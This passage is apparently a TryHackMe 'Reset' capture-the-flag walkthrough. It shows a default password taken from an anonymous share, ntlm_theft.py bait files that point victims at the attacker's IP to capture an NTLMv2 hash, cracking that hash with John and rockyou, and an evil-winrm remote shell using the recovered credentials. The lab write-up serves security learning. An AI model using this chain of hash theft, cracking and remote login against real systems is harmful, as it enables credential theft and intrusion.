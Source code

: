 As we can see, there is a share that can be accessed without logging in, and it has some onboarding files on it. I get them, and read them, and I see what looks like a default initial password. This is very good, as we can use this later. Both just bruteforcing using default user lists, or try and gather more info to build a custom username list. For now, I will dig further to see what else I can find.

```bash
cat 4ag1u1pl.gfi.txt 
Subject: Welcome to Reset 
Dear <USER>,Welcome aboard! We are thrilled to have you join our team. 
As discussed during the hiring process, we are sending you the necessary login information to access your company account. 
Please keep this information confidential and do not share it with anyone.
The initial passowrd is: ResetMe123! We are confident that you will contribute significantly to our continued success. 
We look forward to working with you and wish you the very best in your new role.Best regards,The Reset Team                                                        
```

Another interesting thing I saw was that the files kept changing. This lead me to think there’s activity on this share. Using a hint from another walkthrough, I found that there’s a python script that can create a file to trick users open it, and get their NTLM hash. Using this, I was able to get a user’s hash and get the first flag.

```bash
                                                                                                                                                       ┌──(d15u㉿kali)-[~/Downloads/Tryhackme/Reset]
└─$ python3 ntlm_theft.py -g url -s 10.11.138.74 -f test
Created: test/test-(url).url (BROWSE TO FOLDER)
Created: test/test-(icon).url (BROWSE TO FOLDER)
Generation Complete.
                                                                                                                                                             
┌──(d15u㉿kali)-[~/Downloads/Tryhackme/Reset]
└─$ nano automate.hash
                                                                                                                                                             
┌──(d15u㉿kali)-[~/Downloads/Tryhackme/Reset]
└─$ john automate.hash --wordlist=/usr/share/wordlists/rockyou.txt    
Created directory: /home/d15u/.john
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Passw0rd1        (AUTOMATE)     
1g 0:00:00:00 DONE (2025-06-08 01:15) 11.11g/s 2525Kp/s 2525Kc/s 2525KC/s astigg..920227
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                                                                                                                                                                                         
┌──(d15u㉿kali)-[~/Downloads/Tryhackme/Reset]
└─$ evil-winrm -i haystack.thm.corp -u 'automate' -p 'Passw0rd1'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
*Evil-WinRM* PS C:\Users\automate\Desktop> dir

    Directory: C:\Users\automate\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/21/2016   3:36 PM            527 EC2 Feedback.website
```